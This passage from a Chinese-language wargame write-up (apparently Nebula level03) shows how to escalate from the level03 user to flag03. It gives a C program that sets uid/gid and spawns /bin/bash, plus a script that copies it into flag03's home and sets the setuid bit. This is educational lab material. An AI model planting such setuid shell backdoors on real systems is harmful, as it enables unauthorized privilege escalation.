 既然我们可以构造shell脚本让flag03用户执行，那么我们就可以想办法来直接获取flag03的shell。

编写、编译C程序：

``` c
//bash.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv) {
    if (argc != 2) {
		printf("Usage: bash <uid>\n");
		return 1;
    }
	int uid = atoi(argv[1]);
	setresuid(uid, uid, uid);
	setresgid(uid, uid, uid);
    system("/bin/bash");
	return 0;
}
```

想法是利用脚本，以flag03的身份将上述程序复制并设置它的`set-user-id bit`，然后我们就能以level03用户运行此程序并获取flag03用户的shell。

放置于`writable.d`目录下的脚本内容如下：

``` shell
cp /tmp/bash /home/flag03/bash
chmod +s /home/flag03/bash
```

这里需要说明以下几点：

- 通过查看`/etc/passwd`文件，可以获得flag03用户的USER ID和GROUP ID是996；
- 只设置`set-user-id bit`然后在程序里面直接`system("/bin/bash");`是拿不到flag03的shell的，此时程序的ruid是1004（level03的USER ID）、euid是996，运行程序后依然是level03的shell；需要使用`setresuid()`函数设置ruid、euid、suid。至于`setresgid()`则不是必要的，虽然获取的shell会稍有不同；
- 复制编译出的bash程序是为了改变文件的owner；
- 需要将编译出的bash程序放置在一个flag03可读并且level03可写的目录下，这里选择了`/tmp`目录，但复制的目标目录不能是`/tmp`目录，原因是`/tmp`目录有`nosuid`选项，`suid bit`无法生效，可以使用`mount`命令查看。

![level03](level03_2.png)



## Level04

题目描述：
